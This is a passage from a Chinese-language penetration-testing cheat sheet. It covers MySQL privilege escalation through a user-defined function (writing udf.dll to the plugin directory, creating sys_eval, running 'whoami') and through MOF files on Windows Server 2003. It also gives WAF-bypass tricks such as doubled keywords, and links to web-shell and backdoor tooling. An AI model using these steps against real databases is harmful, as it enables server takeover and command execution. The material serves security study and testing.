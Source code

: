 
### 提权

**UDF提权**

> UDF（User Define Function）自定义函数，是数据库功能的一种扩展。用户通过自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在 SQL 语句中调用，就像调用本机函数 version () 等方便。

UDF制作：[Mysql_UDF_BackDoor开发实践 - 程序代码学习(Learning Program) - T00ls | 低调求发展 - 潜心习安全](https://www.t00ls.com/thread-46107-1-1.html)

UDF提权流程

工具：[tools/大马/udf.php at master · echohun/tools (github.com)](https://github.com/echohun/tools/blob/master/大马/udf.php)

```bash
# 找到mysql的插件目录(安装目录下的lib/plugin/)
show variables like '%plugin%'; # 返回插件目录
select @@basedir; # 返回安装目录

# 写入动态链接库
sqlmap写入
手动十六进制写入

# 创建自定义函数并调用命令
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll'; # 创建sys_eval函数
select sys_eval('whoami'); # 执行whoami命令

# 删除自定义函数
drop function sys_eval;
```

**MOF提权**

- Windows Server 2003 
- C:/Windows/system32/wbem/mof/ 目录下的 mof 文件每 隔一段时间（几秒钟左右）都会被系统执行





# Mysql绕过补充

### 通用绕过

- 大小写绕过

  修复：正则`/i`

- 双写绕过（waf将关键字替换为空，且次数为1）

  ```mysql
  uniunionon
  ```
  
  修复：正则`/m`
  